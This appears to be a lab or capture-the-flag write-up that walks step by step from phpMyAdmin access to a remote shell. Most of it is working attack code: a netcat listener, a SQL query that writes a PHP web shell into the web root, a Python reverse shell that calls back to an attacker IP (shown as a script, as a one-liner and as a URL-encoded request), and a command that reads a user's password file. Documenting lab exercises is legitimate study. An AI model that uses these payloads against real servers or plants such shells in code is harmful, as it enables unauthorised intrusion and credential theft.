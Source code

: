 # EXPLOIT 7: FROM WEBSERVER TO SHELL

There's yet another way to exploit the *phpMyAdmin* database. Let's dive into it!

## Reverse shell

To establish a *Reverse Shell*, we first need a listener on our machine. For this, we can use `netcat` to handle the task.

```Sh
nc -lvp 4242
```

Next, we need to create a shell payload that will help with establishing a connection with the target machine. We'll upload this payload using the same method as in previous exploits. By replicating the query from [writeup1](../writeup1.md), we can generate a PHP script that can execute shell commands.

```SQL
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/forum/templates_c/reverse_shell.php"
```

We will then use the PHP script to execute a Python script that will establish a reverse connection to our machine and create a shell session that allows us to execute commands remotely.

```Python
import socket,subprocess,os,pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.1.47",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=pty.spawn("/bin/bash")
```

However, we need to convert the script into a single line since it will be entered directly into the URL.

```
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.144.5",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/bash");'
```

Additionally, we need to [URL-encode](https://www.urlencoder.org) the script since certain characters cannot be used directly in the URL. This results in the following URL:

```
https://192.168.144.3/forum/templates_c/reverse_shell.php?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%2Cpty%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.144.5%22%2C4242%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dpty.spawn%28%22%2Fbin%2Fbash%22%29%3B%27
```

Finally, by navigating to this page, we establish a connection to the target machine's shell session via *netcat*, allowing us to retrieve the password for the *lmezard* user.

```Sh
cat /home/LOOKATME/password
```

From there, continue at **Exploiting lmezard** in [writeup1](../writeup1.md).